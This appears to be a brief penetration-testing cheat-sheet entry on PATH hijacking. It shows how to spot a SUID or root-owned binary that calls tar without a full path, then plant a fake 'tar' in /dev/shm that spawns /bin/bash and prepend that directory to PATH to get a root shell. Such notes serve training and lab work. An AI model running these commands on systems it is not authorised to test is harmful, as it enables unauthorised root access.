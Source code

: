 # A service or a program that is run or is owned by root
When a service or a program is accessing resources as root or running and **SUID** program that has root privileges.


# PATH hijacking
If one cannot see a full path either in a service or a program, they can overwrite or append
to the `$PATH` environment variable.

**The example below is for binaries, but can also be used for services or cronjobs**
1. Find the program that is being referenced
    ```bash
    ltrace ./binary
    <SNIP>
    system("tar -cvf /root/file")
    <SNIP>
    ```
    `system` calls tar without full path, therefore we can add our own `tar` file to `$PATH`.

2. Make our own `tar` script, add payload and append to `$PATH`
    ```bash
    cd /dev/shm
    export PATH=/dev/shm:$PATH
    echo -e "#!/bin/bash\n/bin/bash" > tar
    chmod +x tar
    ```
3. Run the program again
    ```
    ./binary
    ```